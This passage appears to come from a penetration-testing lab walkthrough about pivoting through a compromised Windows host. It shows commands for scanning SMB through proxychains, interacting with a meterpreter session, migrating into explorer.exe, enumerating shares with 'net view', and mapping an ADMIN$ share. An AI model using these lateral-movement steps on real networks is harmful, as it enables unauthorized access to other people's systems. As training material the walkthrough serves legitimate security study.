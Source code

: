 We can notice that the server is running perfectly.

### Now, let's run nmap with proxychains to identify SMB port (445) on the pivot machine, i.e. target_ip

We could also specify multiple ports. But, in this case, we are only interested in SMB service.

```powershell
proxychains nmap target_ip -sT -Pn -sV -p 445
target_ip
#: The pivot machine
-sT
#: TCP connect scan

-Pn
#: Skip host discovery and force port scan.

-sV
#: Probe open ports to determine service/version info

-p 445
#: Define port to scan
```
This scan is the safest way to identify the open ports. We could use an auxiliary TCP port scanning module. But those are very aggressive and can kill your session.

We notice that port 445 is open on the target machine.

### Now, let's use the net view command to find all resources shared by the target_ip machine.

Interact with the meterpreter session again.

```powershell
sessions -i 1
shell
net view 10.0.22.69
```

We have received the Access is denied. message.

Well, currently, we are running as NT AUTHORITY\SYSTEM privilege. Let's migrate the process into explorer.exe and reaccess it.

```powershell
migrate -N explorer.exe
shell
net view 10.0.22.69
```

This time we can see two shared resources, this confirms that pivot target (target_ip) allows Null Sessions, so we can access the shared resources.

net use Z: \\10.185.11.127\ADMIN$

### Now, we can map the shared drive to the target_ip machine using the 'net' command.
